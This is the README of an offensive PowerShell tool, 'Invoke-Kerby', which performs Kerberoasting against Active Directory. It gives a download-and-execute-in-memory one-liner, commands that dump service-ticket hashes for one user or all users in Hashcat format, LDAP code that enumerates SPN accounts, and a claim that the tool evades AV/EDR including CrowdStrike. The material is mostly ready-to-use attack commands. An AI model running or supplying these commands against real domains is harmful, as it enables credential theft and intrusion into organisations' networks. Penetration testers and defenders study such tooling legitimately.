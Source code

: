# Invoke-Kerby
PowerShell Script for Kerberoasting

<img width="150" height="150" alt="image" src="https://github.com/user-attachments/assets/f603272b-fd31-4915-81b6-67e25b019654" />

## Usage

Download and execute into memory:

````
# load into memory
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/l4rm4nd/Invoke-Kerby/refs/heads/main/Invoke-Kerby.ps1')

# kerberoast single user
Invoke-Kerby -Identity max.muster -OutputFormat Hashcat | % { $_.Hash }

# kerberoast all
Invoke-Kerby -OutputFormat Hashcat | % { $_.Hash }
````

>[!TIP]
> Undetected on AV/EDR. No AMSI bypass required. Tested against CrowdStrike.

<details>
In case you need to enumerate SPNs first:
  
````
$domain = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$root = "LDAP://" + $domain.Name
$searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$root)

$searcher.Filter = "(&(objectCategory=person)(servicePrincipalName=*))"
$searcher.PageSize = 500
$searcher.PropertiesToLoad.Add("samaccountname")     | Out-Null
$searcher.PropertiesToLoad.Add("servicePrincipalName") | Out-Null
$searcher.PropertiesToLoad.Add("distinguishedName")  | Out-Null

$searcher.FindAll() | ForEach-Object {
    $user = $_.Properties["samaccountname"][0]
    $dn = $_.Properties["distinguishedname"][0]
    $spns = $_.Properties["servicePrincipalName"]

    foreach ($spn in $spns) {
        [pscustomobject]@{
            User = $user
            SPN  = $spn
            DN   = $dn
        }
    }
}
````

</details>
